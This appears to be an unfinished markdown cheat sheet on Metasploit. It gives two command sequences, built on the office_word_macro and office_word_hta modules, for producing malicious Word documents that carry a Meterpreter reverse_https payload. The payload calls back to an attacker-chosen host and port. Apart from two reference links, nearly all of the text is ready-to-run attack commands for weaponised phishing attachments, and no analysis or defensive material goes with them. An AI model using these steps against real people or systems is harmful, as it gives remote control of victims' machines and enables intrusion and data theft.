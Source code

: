 # Metasploit

TODO: Finish the rest

## 01 - VBA Macro

```
msf > use exploit/windows/fileformat/office_word_macro

msf exploit(windows/fileformat/office_word_macro) > set payload windows/x64/meterpreter/reverse_https

msf exploit(windows/fileformat/office_word_macro) > set customtemplate /path/to/document.docx

msf exploit(windows/fileformat/office_word_macro) > set lhost <IP>

msf exploit(windows/fileformat/office_word_macro) > set lport <PORT>

msf exploit(windows/fileformat/office_word_macro) > run
```

## 02 - VBA Macro with HTA

```
msf > use exploit/windows/fileformat/office_word_hta

msf exploit(windows/fileformat/office_word_hta) > set payload windows/x64/meterpreter/reverse_https

msf exploit(windows/fileformat/office_word_hta) > set lhost <IP>

msf exploit(windows/fileformat/office_word_hta) > set lport <PORT>

msf exploit(windows/fileformat/office_word_hta) > run
```

---
## References

- [Rapid7: Metasploit Framework - Exploit FileFormat Office Word Macro](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/fileformat/office_word_macro.md)

- [Network Intelligence: Getting System Access Using Malicious Word File](https://networkintelligence.ai/getting-system-access-using-malicious-word-file/)